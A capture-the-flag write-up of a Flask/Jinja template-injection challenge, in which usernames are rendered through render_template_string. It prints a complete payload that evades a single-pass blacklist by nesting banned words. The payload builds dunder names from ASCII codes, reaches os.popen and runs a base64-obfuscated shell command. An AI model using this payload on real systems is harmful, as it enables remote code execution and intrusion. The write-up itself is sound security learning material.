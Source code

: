 ## Noteworthy
> **Category:** web  

### Challenge Overview
We were given a deployed instance of a web app, and its source code. Its a flask based app in python, and uses jinja templates. 

### Code Review
Codebase was pretty small. On first glace, everything seemed secured. There were a few instances of render_templates but we had no way of creating malicious templates. However, there was one render_template_string call that could be exploited.


### The vulnerability.
When a get request was sent to `/notes/<int:note_id>`, it checked if the requester is the author of the note. If not, it returned the name of the author with `render_template_string`. Now the author name was added unsafely before being passed into the jinja rendering function, which means we has SSTI if we control the author field. And the author field is nothing but the username!!

#### Approach
Now that we know we have SSTI, we had to bypass the sanitization function call. Every time a user registered, his username was stripped of blacklisted words. But the function ran only once in a linear fashion. 

Like `{os{ 7*7 }os}` would become `{{ 7*7 }}` as `os` is stripped from the string. We just had to focus on single character blacklist like `_` and `[]` etc.

I searched for how to use ascii codes to form strings and found this - 
`'%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,108,111,98,97,108,115,95,95)`. This payload returns to `__globals__`. That was the crux of payload. I chained attr() calls with strings formatted in ascii codes. This was the final payload - 

```
{os{request|attr('application')|attr('%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,108,111,98,97,108,115,95,95))|attr('%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,101,116,105,116,101,109,95,95))('%c%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,98,117,105,108,116,105,110,115,95,95))|attr('%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,101,116,105,116,101,109,95,95))('%c%c%c%c%c%c%c%c%c%c'|format(95,95,105,109,112,111,114,116,95,95))('%c%c'|format(111,115))|attr('popen')('echo Z2l0IGxvZyAtcCBmbGFn | babasese64 -d | bash')|attr('read')()}os}
```

(Do note that in the last bash command, we are checking the git history of the flag file since the flag was redacted in new commits).


Finally we have to use this payload during account registration, create a dummy note, and get the note ID. Then login using a different account and try accessing that note ID. This will execute the payload.

**Flag:** `saic{g1T_15_4_c00l_700l}`
